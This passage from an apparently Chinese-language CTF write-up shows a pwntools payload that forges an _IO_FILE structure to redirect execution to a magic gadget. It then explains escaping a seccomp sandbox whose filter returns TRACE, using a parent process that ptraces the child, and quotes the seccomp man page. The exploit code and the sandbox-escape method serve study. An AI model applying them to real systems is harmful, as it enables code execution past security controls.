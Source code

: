 ```python

f1._IO_save_base = fake_IO_FILE + 0x510 + 0x100

payload = flat(
    {
        0: {
            0: bytes(f1)[0x10:],
            0xE0 - 0x10: {
                0x18: [0],
                0x30: [0],
                0xE0: [fake_IO_FILE + 0x200],
            },
            # 0x200 - 0x10: {0x68: [0xDEADBEEF]},
            0x200 - 0x10: {0x68: [magic_gadget]},
        },
    }
)
edit(0, payload)
```

### 父进程 ptrace 子进程绕沙箱

接下来就是绕 sandbox 了，这里比较新颖地采用了 `TRACE` 而非 `KILL`，使得古早沙箱绕过方式重现于比赛中：

```bash
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x05 0x00 0x40000000  if (A >= 0x40000000) goto 0009
 0004: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0009
 0005: 0x15 0x03 0x00 0x00000101  if (A == openat) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x7ff00000  return TRACE
```

与常见的 KILL 不同，TRACE 模式不会直接终止程序，可以参考文档：

- [linux/man-pages/man2/seccomp.2](https://man7.org/linux/man-pages/man2/seccomp.2.html)

> [!QUOTE] 
> SECCOMP_RET_TRACE
>   When returned, this value will cause the kernel to attempt
>   to notify a ptrace(2)-based tracer prior to executing the
>   system call.  If there is no tracer present, the system
>   call is not executed and returns a failure status with
>   errno set to ENOSYS.
>
>   A tracer will be notified if it requests
>   PTRACE_O_TRACESECCOMP using ptrace(PTRACE_SETOPTIONS).
>   The tracer will be notified of a PTRACE_EVENT_SECCOMP and
>   the SECCOMP_RET_DATA portion of the filter's return value
>   will be available to the tracer via PTRACE_GETEVENTMSG.
>
>   The tracer can skip the system call by changing the system
>   call number to -1.  Alternatively, the tracer can change
>   the system call requested by changing the system call to a
>   valid system call number.  If the tracer asks to skip the
>   system call, then the system call will appear to return
>   the value that the tracer puts in the return value
>   register.
>